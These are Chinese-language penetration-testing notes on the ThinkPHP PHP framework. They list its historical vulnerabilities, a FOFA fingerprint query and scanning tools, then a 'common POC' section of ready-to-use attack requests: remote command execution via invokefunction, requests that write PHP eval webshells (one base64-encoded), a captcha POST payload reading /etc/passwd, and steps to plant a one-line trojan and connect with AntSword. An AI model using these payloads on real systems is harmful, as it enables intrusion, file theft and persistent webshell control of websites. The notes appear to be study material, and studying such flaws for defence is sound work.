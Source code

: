 ## THINKPHP介绍
- Thinkphp是一种开源框架, 是一个由国人开发的支持Windows/Unix/Linux等服务器环境的轻量级PHP开发框架
- 很多cms就是基于thinkphp二次开发的, 所以thinkphp出问题的话, 会应i想很多基于thinkphp开发的网站

### Thinkphp历史漏洞
- 3.2.3 缓存函数设计缺陷可导致Getshell
- 5 SQL注入漏洞&&敏感信息泄露
- 3.2.3 最新版updae注入漏洞
- 5.0.10 缓存函数设计缺陷可导致Getshell
- 3.2.x find_select_delete注入
- 5.0.x框架 sql注入漏洞分析
- 3.x order_by注入漏洞
- 5.x order_by注入漏洞, 远程代码执行

## Thinkphp特征发现
- 指纹信息, 有特征的默认界面和报错页面
- 开启debug调试模式: `/?s=1` 模式不存在, 完整模式: 报错并显示版本号
- 使用fofa `"thinkphp" && icon_hash="1165838194" && country!="CN"`
- 批量漏洞检测
	- (https://github.com/Lucifer1993/TPscan)
	- (https://github.com/theLSA/tp5-getshell)
	- ThinkphpGUI

## Thinkphp漏洞利用
- Thinkphp3漏洞总结: (http://y4er.com/post/thinkphp3-vuln)
- Thinkphp5 RCE总结: (https://y4er.com/post/thinkphp5-rce)

#### POC
Proof of Concept, 概念验证, 可以理解为**漏洞验证程序**, 仅仅为了证明提出者的观点的一段代码

### 常用POC
- 5.0.x执行命令 `/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami` (whoami/1)
- 5.0.x写入Webshell `/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php @eval($_POST[ccc]);?>`, 或 `/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo -n YWFhPD9waHAgQGFzc2VydCgkX1BPU1RbJ3hzcyddKTs/PmJiYg== | base64 -d > shell9.php` 注入shell
- 例: 5.0.23通过post请求传参获取密码文件 `/index.php?s=captcha`, `POST: _mechod=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat /etc/passwd`
	- 查找POC `searchsploit thinkphp`
		- -p 指定文件名
	- 通过此poc可以读取/创建文件, 也就意味着可以写入一句话木马, 将后面的语句改为`echo "<?php eval(\$_POST['cmd']);?>" > 1.php` 创建新文件后, 使用蚁剑连接 (root用户创建的文件只能同级别的用户修改, 创建文件没有权限)

### 使用thinkphp_gui工具
- 使用thinkphp_gui工具, 扫描目标站点, 获得rce post包转发